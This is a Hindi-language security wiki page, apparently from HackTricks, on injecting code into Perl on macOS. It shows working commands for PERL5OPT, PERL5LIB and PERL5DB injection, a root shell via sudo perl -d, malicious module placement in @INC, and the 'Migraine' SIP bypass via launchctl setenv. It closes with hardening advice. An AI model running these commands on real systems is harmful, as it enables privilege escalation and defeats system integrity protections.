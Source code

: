 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PERL5OPT` & `PERL5LIB` env variable

पर्यावरण चर **`PERL5OPT`** का उपयोग करके यह संभव है कि **Perl** जब इंटरप्रेटर शुरू होता है (यहां तक कि **पहली** पंक्ति को लक्षित स्क्रिप्ट के पार्स होने से पहले) मनमाने आदेशों को निष्पादित करे। उदाहरण के लिए, यह स्क्रिप्ट बनाएं:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
अब **env वेरिएबल को एक्सपोर्ट करें** और **perl** स्क्रिप्ट को निष्पादित करें:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
एक और विकल्प एक Perl मॉड्यूल बनाना है (जैसे `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
और फिर env वेरिएबल्स का उपयोग करें ताकि मॉड्यूल स्वचालित रूप से स्थित और लोड हो सके:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### अन्य दिलचस्प पर्यावरण चर

* **`PERL5DB`** – जब इंटरप्रेटर **`-d`** (डिबगर) ध्वज के साथ शुरू किया जाता है, तो `PERL5DB` की सामग्री डिबगर संदर्भ *के अंदर* Perl कोड के रूप में निष्पादित होती है। यदि आप एक विशेषाधिकार प्राप्त Perl प्रक्रिया के पर्यावरण **और** कमांड-लाइन ध्वजों को प्रभावित कर सकते हैं, तो आप कुछ इस तरह कर सकते हैं:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # स्क्रिप्ट निष्पादित करने से पहले एक शेल खोलेगा
```

* **`PERL5SHELL`** – Windows पर यह चर नियंत्रित करता है कि Perl किस शेल निष्पादन योग्य का उपयोग करेगा जब उसे एक शेल उत्पन्न करने की आवश्यकता होती है। इसे यहाँ केवल पूर्णता के लिए उल्लेखित किया गया है, क्योंकि यह macOS पर प्रासंगिक नहीं है।

हालांकि `PERL5DB` को `-d` स्विच की आवश्यकता होती है, यह सामान्य है कि रखरखाव या इंस्टॉलर स्क्रिप्टें जो *रूट* के रूप में निष्पादित होती हैं, इस ध्वज के साथ सक्षम होती हैं ताकि विस्तृत समस्या निवारण किया जा सके, जिससे यह चर एक वैध वृद्धि वेक्टर बन जाता है।

## निर्भरताओं के माध्यम से (@INC दुरुपयोग)

यह संभव है कि Perl जो शामिल पथ खोजेगा (**`@INC`**) उसे सूचीबद्ध किया जाए:
```bash
perl -e 'print join("\n", @INC)'
```
macOS 13/14 पर सामान्य आउटपुट इस प्रकार दिखता है:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
कुछ लौटाए गए फ़ोल्डर वास्तव में मौजूद नहीं हैं, हालाँकि **`/Library/Perl/5.30`** मौजूद है, *SIP* द्वारा *संरक्षित* नहीं है और *SIP-संरक्षित* फ़ोल्डरों से *पहले* है। इसलिए, यदि आप *root* के रूप में लिख सकते हैं, तो आप एक दुर्भावनापूर्ण मॉड्यूल (जैसे `File/Basename.pm`) छोड़ सकते हैं जिसे कोई भी विशेषाधिकार प्राप्त स्क्रिप्ट उस मॉड्यूल को आयात करते समय *प्राथमिकता* से लोड करेगी।

> [!WARNING]
> आपको `/Library/Perl` के अंदर लिखने के लिए अभी भी **root** की आवश्यकता है और macOS एक **TCC** प्रॉम्प्ट दिखाएगा जो लिखने के ऑपरेशन को करने वाली प्रक्रिया के लिए *पूर्ण डिस्क एक्सेस* मांगता है।

उदाहरण के लिए, यदि एक स्क्रिप्ट **`use File::Basename;`** आयात कर रही है, तो यह संभव होगा कि `/Library/Perl/5.30/File/Basename.pm` बनाया जाए जिसमें हमलावर-नियंत्रित कोड हो।

## SIP बायपास माइग्रेशन सहायक के माध्यम से (CVE-2023-32369 “Migraine”)

मई 2023 में Microsoft ने **CVE-2023-32369** का खुलासा किया, जिसे **Migraine** उपनाम दिया गया, एक पोस्ट-एक्सप्लॉइटेशन तकनीक जो *root* हमलावर को पूरी तरह से **सिस्टम इंटीग्रिटी प्रोटेक्शन (SIP)** को **बायपास** करने की अनुमति देती है। कमजोर घटक **`systemmigrationd`** है, जो **`com.apple.rootless.install.heritable`** के साथ एक डेमन है। इस डेमन द्वारा उत्पन्न कोई भी चाइल्ड प्रोसेस इस अधिकार को विरासत में लेता है और इसलिए **SIP** प्रतिबंधों के *बाहर* चलता है।

शोधकर्ताओं द्वारा पहचाने गए बच्चों में Apple-हस्ताक्षरित इंटरप्रेटर है:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
क्योंकि Perl `PERL5OPT` का सम्मान करता है (और Bash `BASH_ENV` का सम्मान करता है), डेमन के *पर्यावरण* को विषाक्त करना SIP-रहित संदर्भ में मनमाने निष्पादन प्राप्त करने के लिए पर्याप्त है:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
जब `migrateLocalKDC` चलता है, तो `/usr/bin/perl` दुर्भावनापूर्ण `PERL5OPT` के साथ शुरू होता है और `/private/tmp/migraine.sh` को *SIP फिर से सक्षम होने से पहले* निष्पादित करता है। उस स्क्रिप्ट से, आप, उदाहरण के लिए, **`/System/Library/LaunchDaemons`** के अंदर एक पेलोड कॉपी कर सकते हैं या एक फ़ाइल को **अडिलेटेबल** बनाने के लिए `com.apple.rootless` विस्तारित विशेषता असाइन कर सकते हैं।

Apple ने इस समस्या को macOS **Ventura 13.4**, **Monterey 12.6.6** और **Big Sur 11.7.7** में ठीक किया, लेकिन पुराने या बिना पैच किए गए सिस्टम अभी भी शोषण योग्य हैं।

## हार्डनिंग सिफारिशें

1. **खतरनाक वेरिएबल्स को साफ करें** – विशेषाधिकार प्राप्त launchdaemons या cron jobs को एक स्वच्छ वातावरण के साथ शुरू होना चाहिए (`launchctl unsetenv PERL5OPT`, `env -i`, आदि)।
2. **रूट के रूप में इंटरप्रेटर्स चलाने से बचें** जब तक कि यह आवश्यक न हो। संकलित बाइनरी का उपयोग करें या जल्दी विशेषाधिकार छोड़ें।
3. **`-T` (टेंट मोड) के साथ विक्रेता स्क्रिप्ट** ताकि Perl `PERL5OPT` और अन्य असुरक्षित स्विचों को नजरअंदाज करे जब टेंट चेकिंग सक्षम हो।
4. **macOS को अद्यतित रखें** – “Migraine” वर्तमान रिलीज़ में पूरी तरह से पैच किया गया है।

## संदर्भ

- Microsoft Security Blog – “नई macOS भेद्यता, Migraine, सिस्टम इंटीग्रिटी प्रोटेक्शन को बायपास कर सकती है” (CVE-2023-32369), 30 मई 2023।
- Hackyboiz – “macOS SIP बायपास (PERL5OPT & BASH_ENV) अनुसंधान”, मई 2025।

{{#include ../../../banners/hacktricks-training.md}}
